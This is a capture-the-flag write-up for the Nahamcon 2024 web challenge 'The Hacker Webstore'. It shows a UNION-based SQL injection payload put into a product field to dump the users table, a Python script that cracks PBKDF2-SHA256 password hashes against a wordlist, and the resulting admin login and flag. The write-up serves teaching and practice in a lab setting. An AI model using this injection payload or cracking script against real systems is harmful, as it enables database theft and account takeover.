 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | The Hacker Webstore Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: web
challenge: The Hacker Webstore
tags: "web, starry, sql, sqli, cracking"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>

## The Hacker Webstore
> Solved by: Starlord

Mirror : <a href="https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore">https://synthweb.ch/blog/nahamcon-ctf-2024/the-hacker-webstore</a>

![challenge description](https://i.imgur.com/TNLkY9J.png)


As we visit the challenge page, we can see an online store, which sells products aimed at hacker stereotypes.
There are 2 endpoints:

- / for products
- /create to create products
- /admin to login to the website’s back-end

Since we can create products I tried breaking one of 3 inputs by adding `'``)` to one of them, which returned this very helpful error, which helped understand what was going on.

![products page with sql error](https://i.imgur.com/Iy17z9A.png)


the following payload inserted in the description field did the trick for me:

```
lord') UNION SELECT * FROM users/*
```

This will show everything from the table `users` and comment out the rest of the line.


![uncrackable hashes](https://i.imgur.com/FTE7qtQ.png)


From there it was just a matter of cracking the hashes. But it turned out to be more complicated than usual:
As per research, we found out that hashcat and john the ripper, 2 most commonly used tools for cracking hashes, had multiple ways of cracking pbkdf2 sha256 hashes, but none of them had a working function for our specific current hash format.
We managed to identify the different parts of the hash thanks to reddit and stack overflow posts which looks like this:

    pbkdf2:sha256:<iterations amount>$<Salt>$<hash>

After trying desperately with modes 10900, 10000, 1460, the hashes were not cracking.

Remember, we have 2000 potential passwords in a list given in the challenge description, so even if we have 600k iterations, it shouldn’t take too long.

I ended up making my own decryption tool:

- crack.py

```python
import hashlib

def crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations):
    with open(password_list_file, 'r') as file:
        passwords = file.read().splitlines()
    
    for password in passwords:
        # make PBKDF2-HMAC-SHA256
        dk = hashlib.pbkdf2_hmac('sha256', password.encode(), salt.encode(), iterations)
        print(f"Trying password: {password}")
        
        # match check
        if dk.hex() == target_hash:
            print(f"Password found: {password}")
            return password
    
    print("Password not found in the provided list.")
    return None

target_hash = "b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57"
salt = "MSok34zBufo9d1tc"
iterations = 600000
password_list_file = "password_list.txt"

crack_pbkdf2_sha256_hash(password_list_file, target_hash, salt, iterations)
```

I made sure it would print each password to be able to visually confirm progress, as shown below:

![password found](https://i.imgur.com/FCaLxvU.png)


With this, I could then authenticate at /admin and see the flag:

![flag discovered](https://i.imgur.com/of6ycSh.png)

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```

